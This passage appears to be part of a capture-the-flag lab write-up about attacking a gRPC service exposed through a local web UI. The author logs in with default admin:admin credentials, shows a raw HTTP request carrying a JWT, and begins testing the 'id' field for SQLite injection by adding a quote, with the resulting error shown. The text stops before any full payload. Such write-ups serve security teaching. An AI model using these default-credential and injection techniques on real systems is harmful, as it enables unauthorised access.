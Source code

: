 No dice, but I only tried with a regular user. I then create admin:admin and get a success, which then lets me getinfo. This generates a presumable admin token for me which authenticates my request and provides a non-error response.

```
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:40033
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
x-grpcui-csrf-token: jWf-I80YYW8DlnFX68qEivgrakEkBsq1-zBvBKPlGB0
X-Requested-With: XMLHttpRequest
Content-Length: 195
Origin: http://127.0.0.1:40033
DNT: 1
Connection: close
Referer: http://127.0.0.1:40033/
Cookie: _grpcui_csrf_token=jWf-I80YYW8DlnFX68qEivgrakEkBsq1-zBvBKPlGB0
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoicmFjY29vbiIsImV4cCI6MTY5NTUwMjE4NX0.ZsIudp0ZesK06A5DHvJNcdbY-DfVzs7nseQmEiH46rg"}],"data":[{"id":"36"}]}
```

```
{
  "message": "Will update soon."
}
```

<h1>User as sau</h1>

<h2>SQLite Injection</h2>

After I look closer that id might be susceptible to sqli. And after adding **'** to the id I get the following response:

```
{
  "headers": [],
  "error": {
    "code": 2,
    "name": "Unknown",
    "message": "Unexpected \u003cclass 'TypeError'\u003e: bad argument type for built-in operation",
    "details": []
  },
  "responses": null,
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    }
  ]
}
```
